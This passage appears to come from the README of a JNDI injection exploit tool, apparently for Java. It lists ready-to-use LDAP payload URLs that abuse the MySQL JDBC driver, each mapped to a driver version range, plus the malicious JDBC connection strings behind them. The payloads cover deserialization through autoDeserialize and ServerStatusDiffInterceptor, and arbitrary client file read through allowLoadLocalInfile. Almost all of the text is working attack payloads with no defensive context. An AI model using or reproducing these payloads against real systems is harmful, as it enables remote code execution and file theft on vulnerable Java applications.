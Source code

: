 Replace Factory in the URL with one of CommonsDBCP1/CommonsDBCP2/TomcatDBCP1/TomcatDBCP2/TomcatJDBC/Druid/HikariCP

#### MySQL

**MySQL JDBC Deserialization**

```bash
# detectCustomCollations (5.1.19-5.1.48, 6.0.2-6.0.6)
ldap://127.0.0.1:1389/Factory/MySQL/Deserialize1/127.0.0.1/3306/root

# ServerStatusDiffInterceptor

# 5.1.11-5.1.48
ldap://127.0.0.1:1389/Factory/MySQL/Deserialize2/127.0.0.1/3306/root

# 6.0.2-6.0.6
ldap://127.0.0.1:1389/Factory/MySQL/Deserialize3/127.0.0.1/3306/root

# 8.0.7-8.0.19
ldap://127.0.0.1:1389/Factory/MySQL/Deserialize4/127.0.0.1/3306/root
```

JDBC URL (for reference)

```bash
# detectCustomCollations (5.1.19-5.1.48, 6.0.2-6.0.6)
jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=123

# ServerStatusDiffInterceptor

# 5.1.11-5.1.48
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=test

# 6.0.2-6.0.6
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=test

# 8.0.7-8.0.19
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=test
```

**MySQL Client Arbitrary File Read**

```bash
# all versions
ldap://127.0.0.1:1389/Factory/MySQL/FileRead/127.0.0.1/3306/root
```

JDBC URL (for reference)

```bash
# all versions
jdbc:mysql://127.0.0.1:3306/test?allowLoadLocalInfile=true&allowUrlInLocalInfile=true&allowLoadLocalInfileInPath=/&maxAllowedPacket=655360
```
